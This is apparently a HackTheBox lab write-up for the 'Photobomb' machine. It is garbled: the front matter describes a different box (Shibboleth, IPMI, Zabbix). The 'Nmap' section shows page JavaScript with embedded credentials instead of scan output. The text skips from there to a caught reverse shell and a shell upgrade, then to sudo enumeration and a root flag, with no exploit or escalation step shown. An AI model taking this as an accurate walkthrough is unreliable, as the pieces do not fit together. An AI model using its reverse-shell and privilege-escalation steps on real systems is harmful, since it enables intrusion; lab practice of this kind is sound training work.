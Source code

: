 ```yaml
---
layout: post
title: "HTB: PHOTOBOMB (10.10.11.182)"
description: "Shibboleth is a medium machine from HackTheBox created by knightmare & mrb3n. It starts off with a static website template. We will find a clue to look into BMC automation then find IPMI listening on UDP port 632. I will use Metasploit to leak a hash from IPMI, and crack it to get creds. This creds will allow me to log into Zabbix instance. Once in Zabbix i will use the Zabbix agent to execute commands and gain initial foothold. I will use credential reuse to pivots the next user. To get root, I’ll exploit a CVE in MariaDB / MySQL."
tags: [hackthebox, htb, linux, snmp, zabbix, command execution, access control lists, shibboleth, nmap, gobuster, ipimi-svc, mysql, password reuse, CVE-2021-27928,port 623,monitoring]
image: "/assets/img/photobomb/photobomb_feature.png"
---
```

## RECON
### Nmap

As always we start off with the recon and enumeration process to get an overview of our attack surface and target's running service.

We run NMAP with default scripts and enumerate version and save it in the directory called nmap.

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
And we get a shell on the box. While we are at it we can upgrade out shell to a better one

```sh
┌─[george@parrot]─[~/HTB/boxes/photobomb]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.182] 43228
bash: cannot set terminal process group (697): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 

wizard@photobomb:~/photobomb$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$ ^Z
[1]+  Stopped                 nc -lvnp 9001
┌─[✗]─[george@parrot]─[~/HTB/boxes/photobomb]
└──╼ $stty raw -echo;fg
nc -lvnp 9001

wizard@photobomb:~/photobomb$
```

Lets see what are our sudo permissions 

```sh
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
Looking at the file we have read permissions 

```sh
wizard@photobomb:~/photobomb$ ls -l /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh

wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
```sh
root@photobomb:~# cat root.txt
6e1520841af265a0b4670439d183a254
```
